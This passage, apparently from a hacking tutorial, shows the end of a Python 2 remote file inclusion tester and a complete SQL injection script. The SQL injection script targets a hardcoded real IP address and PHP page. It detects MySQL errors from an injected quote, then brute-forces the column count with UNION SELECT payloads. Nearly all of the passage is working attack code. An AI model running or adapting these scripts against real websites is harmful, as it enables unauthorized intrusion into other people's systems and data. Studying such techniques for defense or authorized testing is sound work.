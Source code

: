 print "\n==> Testing for RFI vulns.."
TARGET = TARGET.split("=")[0]+"="+RFIVULN ## URL MANUPLIATION
try:
    source = urllib2.urlopen(TARGET).read() ## WEB REQUEST
except urllib2.URLError, e:
    print "$$$ We had an Error:",e
    sys.exit(0)
if re.search("Hello world",source): ## SEARCH FOR TEXT IN SOURCE
    print "!! => RFI Found:",TARGET
    
print "\nScan Complete\n" ## DONE

--------------------------------




2. Simple SQL Injection 


vi sqli.py
--------------------------------
#!/usr/bin/env python
print "\n### PHP SQLi Detector ###"
import urllib2,re,sys

TARGET = "http://54.172.112.249/acre2.php?lap=acer"

SQLi = "%27"
SQLiError = "You have an error in your SQL"
myNameInHex = "0x6a6f65"
myName = 'joe'

print "==> Testing for SQLi Error Vuln..."
URL = TARGET+SQLi
try:
	source = urllib2.urlopen(URL).read() ## WEB REQUEST
except urllib2.URLError, e:
	print "$$$ We had an Error\n",e
	sys.exit(0)
if re.search(SQLiError,source): ## SEARCH FOR ERROR IN PAGE
	print "!! ==> SQLi Found:",TARGET+SQLi
	print "## ==> Bruting NULL column...",
URL = TARGET+SQLi+"%20UNION%20SELECT%20"+myNameInHex ## BUILD OUR SQLi STATEMENT
for x in xrange(1,10):
	if x > 1:
		URL = URL+","
		URL = URL+myNameInHex
		print x,
		print URL
		try:
			source = urllib2.urlopen((URL+"--%20j")).read() ## WEB REQUEST
		except urllib2.URLError, e:
			print "$$$ We had an Error\n",e
			sys.exit(0)
		if re.search(myName, source): ## SEARCH FOR UNENCODED NULL WORD
			print "\n!! ==> Null Column Found:",URL+"--"
			break
else:
	print "** ==> No SQLi Found!"
print "\nScan Complete\n"
--------------------------------